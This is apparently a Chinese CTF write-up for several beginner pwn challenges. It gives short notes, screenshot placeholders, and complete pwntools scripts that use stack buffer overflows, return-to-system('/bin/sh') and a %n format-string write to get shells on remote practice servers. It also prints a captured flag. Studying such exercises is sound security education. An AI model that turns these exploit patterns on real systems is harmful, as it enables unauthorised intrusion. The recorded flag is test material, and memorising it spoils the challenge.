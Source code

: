 # get_shell

文件信息

![输入图片说明](image/5749f31a96314d1d89ac37465529ff91.png)

![输入图片说明](image/b7a905def8144d1fb0a4acb3516f89d7.png)

flag

```csharp
helloctfos@Hello-CTF:~$ nc 61.147.171.105 56505
ls
bin
dev
flag
get_shell
lib
lib32
lib64
cat flag
cyberpeace{be73b6d2c6ef9335f302372399629769}
```

# hello_pwn

文件信息

![输入图片说明](image/1d8aad0b430e4796ae8122e80d23b61e.png)

![输入图片说明](image/a42e9a985ee747ecbcb96318dfdaff1e.png)

sub_400686

![输入图片说明](image/3a068e1e5dbe43408151673752f49182.png)

```csharp
from pwn import *
p=remote('61.147.171.105','50394')
p.recvuntil("lets get helloworld for bof")
payload=('a'*0x4).encode()+p64(1853186401)
p.sendline(payload)#将payload发送给程序
p.interactive()#进入交互界面8、执行exp，成功拿到攻防世界的flag
```

# level0

文件信息

![输入图片说明](image/52374d9549c54312ac4156a220153f52.png)

![输入图片说明](image/ca55a151892d493482fa8c829369ea83.png)

![输入图片说明](image/c766376250dc4ee98c082cbeda3d1701.png)

找到了我们需要返回的地方

![输入图片说明](image/06e7b3c9d2f94f3da0273e653e0deb22.png)

生成一段字符串，看一下大小

![输入图片说明](image/3fa295e89ba94de798ad49a9fec77183.png)

![输入图片说明](image/74cf039c5ced47ee8860d20ec5ad1a22.png)

查找一下callsystem函数地址

![输入图片说明](image/8d24232499b140e5babc6063132deb92.png)

payload

```csharp
from pwn import*

r=remote("61.147.171.105",52218)

payload=b"a"*136+p64(0x400596)

r.sendline(payload)
r.interactive()
```

# level2

文件信息

![输入图片说明](image/f252dc3fd0084d87a095fd445a74fff3.png)

buf0x88大小

![输入图片说明](image/f236069e82fa41eaae589334b76d02a9.png)

system

![输入图片说明](image/3d21b5db265c47e5af3bbdf1604104de.png)

/bin/sh

![输入图片说明](image/1cc5862d5dda463aa1f69566fea44065.png)

payload

```csharp
from pwn import*

r=remote("61.147.171.105",54081)

systemaddr=0x08048320
binshaddr=0x0804A024
payload=b"a"*0x88+b"a"*4+p32(systemaddr)+b"a"*4+p32(binshaddr)

r.sendline(payload)
r.interactive()
```

# CGfsb

文件信息

![输入图片说明](image/f680a8b228c84ebb84664e5f2991fdc9.png)

pwnme在0804A068

![输入图片说明](image/c1d862f216aa45b2b337516c2097ab6e.png)

存在格式化字符串

![输入图片说明](image/f5589e1d9a29468b8c96e075f6c2432c.png)

确定偏移量为10

![输入图片说明](image/0fe5d190197741f9b63e34330b09d563.png)

payload

```csharp
from pwn import*

p=remote("61.147.171.105",55602)


pwnme=0x0804A068
p.recvuntil("please tell me your name:\n")
p.sendline('a')
payload = p32(pwnme)+b'a'*0x4 +b'%10$n'
p.recvuntil("leave your message please:\n")

p.sendline(payload)
p.interactive()
```
